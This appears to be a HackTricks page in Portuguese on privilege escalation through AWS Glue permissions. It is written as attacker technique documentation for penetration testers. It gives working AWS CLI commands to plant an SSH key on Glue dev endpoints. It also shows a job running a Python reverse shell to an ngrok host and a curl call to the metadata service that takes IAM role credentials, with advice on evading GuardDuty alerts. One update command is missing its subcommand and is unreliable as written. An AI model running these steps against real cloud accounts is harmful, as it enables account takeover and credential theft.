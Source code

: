 # AWS - Glue Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Um atacante com as permissões `iam:PassRole` e `glue:CreateDevEndpoint` poderia **criar um novo endpoint de desenvolvimento AWS Glue e passar um papel de serviço existente para ele**. Em seguida, eles poderiam fazer SSH na instância e usar o AWS CLI para ter acesso às permissões às quais o papel tem acesso.

```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
    --role-arn arn_of_glue_service_role \
    --public-key file:///path/to/my/public/ssh/key.pub
```

Agora, o atacante só precisaria **fazer SSH no endpoint de desenvolvimento** para acessar as credenciais dos papéis.

```bash
# Obtenha o endereço público da instância
## Você também pode usar get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH com o usuário glue
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Embora não seja especificamente observado na documentação do GuardDuty, seria uma má ideia exfiltrar as credenciais da instância Glue. Em vez disso, **a API da AWS deve ser acessada diretamente a partir da nova instância**.

**Impacto potencial:** Privesc para o papel de serviço Glue especificado.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Um atacante com a permissão **`glue:UpdateDevEndpoint`** seria capaz de **atualizar a chave pública SSH associada a um endpoint de desenvolvimento Glue existente**, para então fazer SSH nele e ter acesso às permissões às quais o papel anexado tem acesso.

```bash
# Altere a chave pública para se conectar
aws glue --endpoint-name target_endpoint \
    --public-key file:///path/to/my/public/ssh/key.pub

# Obtenha o endereço público da instância
## Você também pode usar get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH com o usuário glue
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Agora, o atacante só precisaria **fazer SSH no endpoint de desenvolvimento para acessar as credenciais dos papéis**. A API da AWS deve ser acessada diretamente a partir da nova instância para evitar acionar alertas.

**Impacto potencial:** Privesc para o papel de serviço Glue usado.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Um atacante com essas permissões pode **criar/atualizar um trabalho anexando qualquer conta de serviço Glue** e iniciá-lo. O trabalho pode executar código Python arbitrário, então um shell reverso pode ser obtido e usado para **roubar as credenciais IAM** do papel anexado.

```bash
# Conteúdo do script Python salvo no s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#Para obter as credenciais do IAM Role, execute: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# Foi criado um papel Glue com acesso de administrador
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# Você pode iniciar diretamente o trabalho
aws glue start-job-run --job-name privesctest
# Ou você pode criar um acionador para iniciá-lo
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #A cada 5 minutos, sinta-se à vontade para alterar
```

**Impacto potencial:** Privesc para o papel de serviço Glue especificado.

### `glue:UpdateJob`

Apenas com a permissão de atualização, um atacante poderia roubar as Credenciais IAM do papel já anexado.

**Impacto potencial:** Privesc para o papel de serviço Glue anexado.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>